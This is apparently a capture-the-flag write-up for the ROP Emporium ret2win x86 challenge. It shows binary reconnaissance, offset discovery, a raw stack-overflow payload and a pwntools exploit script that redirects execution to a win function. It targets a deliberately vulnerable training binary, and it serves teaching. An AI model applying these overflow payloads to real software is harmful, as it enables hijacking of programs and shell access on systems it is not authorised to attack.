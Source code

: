 ```yaml
---
title: ROP Emporium - ret2win - x86
date: '2024-07-21'
tags: ['pwn', 'ctf', 'Binary Exploitation', 'Ret2win','write-up']
draft: false
summary: Exploit a binary using ROP to call ret2win() and print the flag.
---
```


# Ret2win

A technique used to invoke an uninvoked function by binary exploitation using stack buffer overflow.

It is done when we have NX enabled on the code.

Let’s learn how we can exploit code using ret2win in C programming. We will explain this with the ROP Emporium challenge ret2win-32. Here is the binary file attached.

[ret2win32](https://prod-files-secure.s3.us-west-2.amazonaws.com/21a1fb05-e61b-4497-b1d6-bdf89d2923f4/72d25abf-6b03-49b9-ad9d-46f3ea534ac1/ret2win32.txt)

First check what file it is using `file` command.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/image1.png)


Now check what protections are enabled on this binary. For ret2win, it is essential that NX is enabled.

```bash
checksec --file=ret2win32
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img2.png)

```bash
rabin2 -I ret2win32
#this will provide binary info
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img3.png)

```bash
rabin2 -i ret2win
# this will list all the imported functions and libraries
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img4.png)

```bash
rabin2 -qs ret2win | grep -ve imp -e ' 0 '
# this will give us the important functions of the binary
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img5.png)

```bash
rabin2 -z ret2win32
# this will give the important strings of the binary
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img6.png)

I opened the program to analyze it in Ghidra and examined the functions like main and pwnme. Then, I opened gdb and disassembled pwnme to figure out how it works. I ran the binary and input a lot of numbers; it gave a segmentation fault and returned to the ret address.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img7.png)

To check out the offset where it returns, i did this:

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img8.png)

It means the offset at which program breaks is 0x4c4c4c which is `L` . It means after `K` it is overwriting the return address, which i can check out like this;

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img9.png)

This time it gave the hex 0x5a5a5a, which in ASCII is Z. So, we have figured out our offset to overwrite the return address. What we need to do next is to overwrite this address with the win address (in this case, it is the ret2win function address) which will print out our flag (just in this case; otherwise, in a real scenario, it will get the root address).

Now let’s count the length after which overflow is possible.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img10.png)

So after 44 bytes we’ll be able to overwrite our ret address.

44 → offset value

Now to get the address of ret2win function, i’ll run this command on my local machine terminal

```bash
nm ./ret2win
```

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img11.png)

Here we go, got the address. Now it’s time to overwrite it. I gave the address in little-endian format in the form of raw bytes. For this, I used the command:

```bash
echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\x2c\x86\x04\x08'
```
![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img12.png)

After this result, we thought we did something wrong. Nah, the trick is we are getting the flag, but because our program is closing, so is the file. So for this, there’ll be a bit of modification in the command, and it goes as:

```bash
(echo -e 'AAAABBBBCCCCDDDDEEEEFFFFGGGGHHHHIIIIJJJJKKKK\x2c\x86\x04\x08' ; cat ) | ./ret2win32
```

Why so? Why did we give the command like that? The answer is when we run the cat command, it prints out the same output on the terminal. So in order to print the flag (just in this case; otherwise, to get the shell in a real scenario), we want to run the echo command, then execute cat before the binary program closes so that we can get the shell or flag or whatever the case is. And voila, here we go, got our flag.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img13.png)

Now we know how to overwrite the address, let’s write the exploit of this address in any editor in our terminal.

```bash
#!/usr/bin/python3

from pwn import *

elf = context.binary = ELF('./ret2win32')
io = process()
payload = cyclic(44) + pack(elf.sym.ret2win)
io.sendline(payload)
io.interactive()

```

In this exploit, I created an elf variable in which I stored the binary of that file, making it accessible because of the pwn library. The payload first contains any garbage 44 bytes (as it was our offset value), then using the elf binary, we got the address of ret2win. pack is used to convert the address of the ret2win function to the 32-bit format (in this case, it is x86 or 32-bit ELF). Then we send the payload, and interactive is to make the binary interactive to display output on the terminal.

I ran this exploit.

```bash
./ret2win32_exploit.py
```

And here i got the result.

![Screenshot](/static/writeups/rop_emporiium/ret2win32/images/img14.png)

That's all for today.
**Happy Hacking!!!**